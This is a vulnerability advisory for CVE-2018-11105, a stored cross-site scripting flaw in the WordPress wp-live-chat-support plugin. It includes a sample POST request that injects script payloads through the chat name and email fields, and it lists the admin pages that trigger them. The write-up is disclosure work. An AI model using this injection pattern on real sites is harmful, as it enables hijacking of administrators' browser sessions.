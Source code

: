 
# CVE-2018-11105

[Suggested description]

    There is stored cross site scripting in the wp-live-chat-support plugin before 8.0.08 for
    WordPress via the "name" (aka wplc_name) and "email" (aka wplc_email) input fields
    whenever a malicious attacker would initiate a new chat with an
    administrator.
    NOTE: this issue exists because of an incomplete fix for CVE-2018-9864.
    
 
 [Additional Information]
 
    The following POST request was used for leveraging the XSS attack:
 
     ```
    POST /wp-json/wp_live_chat_support/v1/start_chat HTTP/1.1
        ...
        header info
        ...
        Connection: close
        
        relay_action=wplc_new_chat&
        security=<token&
        cid=<cid&
        wplc_name=<scriptalert("evil payload in name");</script&
        wplc_email=<scriptalert("evil payload in mail");</script&
        wplc_extra_data%5Bobject_switch%5D=1&
        url=http%3A%2F%2Flocalhost%3A8000%2F&
        session=<session&
        server_token=<token&
        token=<token&_wpnonce=<nonce
    ```
 
     Notice that the wplc_name and wplc_email were effectively used to deliver the payload to the WordPress backend.
 
 
 [Vulnerability Type]

    Cross Site Scripting (XSS)
 
 
 [Vendor of Product]
 
    CodeCabin_ / WP-livechat
 
 
 [Affected Product Code Base]

    WP live chat support - All versions < 8.0.08
 
 
 [Affected Component]
 
    WP live chat support - all versions < 8.0.08
 
 
 [Attack Type]
 
    Remote
 
 
 [CVE Impact Other]
 
    Stored Cross Site Scripting
 
 
 [Attack Vectors]
 
    A malicious attacker that initiates a chat with an administrator can
    abuse the "name" and "email" form fields that are presented by the
    wp-live-chat plugin to inject malicious javascript. After the chat is
    either ended or missed by the administrator interaction with the
    following pages will trigger the malicious javascript:
    
    http://<target-url/wp-admin/admin.php?page=wplivechat-menu-history
    http://<target-url/wp-admin/admin.php?page=wplivechat-menu&action=history&cid=<infected-chat-id
    
    http://<target-url/wp-admin/admin.php?page=wplivechat-menu-missed-chats
    http://<target-url/wp-admin/admin.php?page=wplivechat-menu&action=history&cid=<infected-chat-id
 

 [Has vendor confirmed or acknowledged the vulnerability?]

    true


 [Discoverer]
 
    Riccardo ten Cate


 [Reference]
 
    https://github.com/RiieCco/write-ups/tree/master/CVE-2018-11105
